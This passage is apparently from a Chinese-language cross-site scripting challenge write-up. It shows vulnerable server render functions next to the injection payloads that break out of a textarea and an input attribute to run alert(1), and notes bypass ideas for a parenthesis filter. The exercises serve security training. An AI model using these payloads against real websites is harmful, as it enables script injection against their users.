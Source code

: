 ```
没过滤，闭合<textarea>标签；
```

input code:

```
</textarea><script>alert(1)</script>
```

html:

```
<textarea></textarea><script>alert(1)</script></textarea>
```

## 0x02

server code:

```
function render (input) {
  return '<input type="name" value="' + input + '">'
}
```

Analysis:

```
没过滤，闭合"双引号及input标签；
```

input code:

```
"><img/src=x onerror=alert(1)>
```

html:

```
<input type="name" value=""><img/src=x onerror=alert(1)>">
```

## 0x03

server code:

```
function render (input) {
  const stripBracketsRe = /[()]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
```

Analysis:

```
正则匹配了()括号，并将其替换为空；
1、html实体编码绕过；
2、模版字符串；
```
